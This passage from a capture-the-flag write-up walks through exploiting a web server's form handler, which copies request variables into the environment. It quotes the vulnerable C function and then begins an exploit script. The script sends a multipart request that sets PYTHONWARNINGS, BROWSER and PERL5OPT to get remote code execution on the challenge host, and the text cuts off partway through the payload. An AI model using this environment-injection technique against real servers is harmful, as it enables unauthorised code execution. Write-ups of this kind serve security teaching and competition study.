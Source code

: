 ```c=
static void addFormVars(Webs *wp, char *vars)
{
    WebsKey     *sp;
    cchar       *prior;
    char        *keyword, *value, *tok;

    assert(wp);
    assert(vars);

    keyword = stok(vars, "&", &tok);
    while (keyword != NULL) {
        if ((value = strchr(keyword, '=')) != NULL) {
            *value++ = '\0';
            websDecodeUrl(keyword, keyword, strlen(keyword));
            websDecodeUrl(value, value, strlen(value));
        } else {
            value = "";
        }
        if (*keyword) {
            /*
                If keyword has already been set, append the new value to what has been stored.
             */
            if ((prior = websGetVar(wp, keyword, NULL)) != 0) {
                sp = websSetVarFmt(wp, keyword, "%s %s", prior, value);
            } else {
                sp = websSetVar(wp, keyword, value);
            }
            /* Flag as untrusted keyword by setting arg to 1. This is used by CGI to prefix this keyword */
            sp->arg = 1;
        }
        keyword = stok(NULL, "&", &tok);
    }
}
```

### First method RCE (worked in the challenge):

So now that we are able to set any environment variables, we started digging on how we would  achieve RCE. The first idea we got is to use the known ``LD_PRELOAD `` trick, if we manage to upload our shared library in the server with a known path we will have our win but it won't be that easy so we will talk more in details about this approach in the next section.

After a lot of tries and reflection, @st98 senpai sent this interesting [article](https://www.elttam.com/blog/env/#content), it's talking about achieving RCE while running a python script by using ``PYTHONWARNINGS`` ``BROWSER`` and ``PERL5OPT`` variables. You can find more details about this method in the article mentioned below. So here is our final exploit written by @st98 senpai:

```python=
import socket

#s = socket.create_connection(('localhost', 5000))
s = socket.create_connection(('advancement.chal.perfect.blue', 80))
payload = '''--------------------------58ffd05745ad3119
Content-Disposition: form-data; name="PYTHONWARNINGS"

all:0:antigravity.x:0:0
--------------------------58ffd05745ad3119
Content-Disposition: form-data; name="BROWSER"

perlthanks
--------------------------58ffd05745ad3119
Content-Disposition: form-data; name="PERL5OPT"

```